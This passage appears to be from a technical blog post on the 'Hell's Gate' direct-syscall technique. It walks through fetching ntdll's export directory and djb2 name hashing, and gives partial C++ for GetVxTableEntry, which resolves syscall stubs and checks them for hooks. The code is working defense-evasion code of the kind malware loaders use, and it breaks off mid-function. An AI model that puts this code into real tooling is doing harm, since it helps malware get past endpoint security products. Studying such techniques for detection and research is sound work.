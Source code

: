 ![Alt text](https://rfc6592.github.io/assets/img/processenvblockhellsgate.png)


Next, the export directory of *ntdll.dll* is fetched using `GetImageExportDirectory`. The export directory is found by parsing the *DOS* and *Nt* headers.

![Alt text](https://rfc6592.github.io/assets/img/eatofntdllhellsgate.png)
![Alt text](https://rfc6592.github.io/assets/img/imageexportdirectoryhellsgate.png)

Next, for each syscall the *dwHash member is initialized* (e.g **NtAllocateVirtualMemory.dwHash**) with its corresponding hash value. With each initialization, the *GetVxTableEntry* function is called.

## 0x2 - GetVxTableEntry function

#### TL;DR
*GetVxTableEntry* function will go through the Export Address Table (EAT) in this loop and then will try to find if there's a match of a function name hash matching our hash we are looking for.

![Alt text](https://rfc6592.github.io/assets/img/vxtableentryhellsgate.png)
![Alt text](https://rfc6592.github.io/assets/img/djb2hellsgate.png)

---
---

#### Overview - GetVxTableEntry

```c++
BOOL GetVxTableEntry(PVOID pModuleBase, PIMAGE_EXPORT_DIRECTORY pImageExportDirectory, PVX_TABLE_ENTRY pVxTableEntry) {
	PDWORD pdwAddressOfFunctions = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfFunctions);
	PDWORD pdwAddressOfNames = (PDWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNames);
	PWORD pwAddressOfNameOrdinales = (PWORD)((PBYTE)pModuleBase + pImageExportDirectory->AddressOfNameOrdinals);

	for (WORD cx = 0; cx < pImageExportDirectory->NumberOfNames; cx++) {
		PCHAR pczFunctionName = (PCHAR)((PBYTE)pModuleBase + pdwAddressOfNames[cx]);
		PVOID pFunctionAddress = (PBYTE)pModuleBase + pdwAddressOfFunctions[pwAddressOfNameOrdinales[cx]];

		if (djb2(pczFunctionName) == pVxTableEntry->dwHash) {
			pVxTableEntry->pAddress = pFunctionAddress;

			// Quick and dirty fix in case the function has been hooked
			WORD cw = 0;
			while (TRUE) {
				// check if syscall, in this case we are too far
				if (*((PBYTE)pFunctionAddress + cw) == 0x0f && *((PBYTE)pFunctionAddress + cw + 1) == 0x05)
					return FALSE;

				// check if ret, in this case we are also probaly too far
				if (*((PBYTE)pFunctionAddress + cw) == 0xc3)
					return FALSE;

				// First opcodes should be :
				//    MOV R10, RCX
				//    MOV RCX, <syscall>
				if (*((PBYTE)pFunctionAddress + cw) == 0x4c
					&& *((PBYTE)pFunctionAddress + 1 + cw) == 0x8b
					&& *((PBYTE)pFunctionAddress + 2 + cw) == 0xd1
```